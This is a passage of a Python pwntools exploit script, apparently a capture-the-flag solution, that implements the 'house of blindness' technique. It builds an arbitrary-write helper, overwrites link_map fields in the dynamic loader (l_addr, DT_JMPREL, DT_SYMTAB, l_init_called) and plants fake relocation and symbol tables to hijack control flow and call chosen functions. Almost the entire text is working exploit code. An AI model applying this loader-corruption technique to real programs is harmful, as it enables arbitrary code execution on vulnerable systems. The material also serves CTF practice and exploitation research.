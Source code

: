 ```python
        return self.offset + 0x58


def conn():
    if args.LOCAL:
        r = gdb.debug([exe.path])
    if args.DUMP:
        r = process('cat > dump.txt', shell=True)
    else:
        r = remote("localhost", 5001)
    return r


ld.address = 0x270000 - 0x10
libc.address = 0x43000 - 0x10

binary_map = link_map(0x36220)
ld_map = link_map(0x35A48)

_rtld_global = rtld_global(ld.symbols["_rtld_global"])


def write(offset, bytes):
    for i, byte in enumerate(bytes):
        r.send(p64(offset + i, signed=True))
        r.send(p8(byte))


def set_rela_table(table):
    write(
        ld.symbols["_r_debug"],
        table,
    )
    # set reloc table to _r_debug
    write(binary_map.l_info(link_map.DT_JMPREL), p8(0xB8))


def set_sym_table(table):
    write(ld.symbols["_r_debug"] + elf64_sym.size * 2, table)
    write(binary_map.l_info(link_map.DT_SYMTAB), p8(0xB8))


def restore_rela_table():
    write(binary_map.l_info(link_map.DT_JMPREL), p8(0xF8))


def restore_sym_table():
    write(binary_map.l_info(link_map.DT_SYMTAB), p8(0x88))


# implements house of blindness to call a function
def call_fn(fn, arg=b""):
    write(
        binary_map.l_addr(),
        p64(fn - ld.symbols["_r_debug"], signed=True),
    )
    write(_rtld_global._dl_load_lock(), arg)
    write(binary_map.l_init_called(), p8(0xFF))


def page_boundary(size):
    return (size + 0x1000) >> 12 << 12

```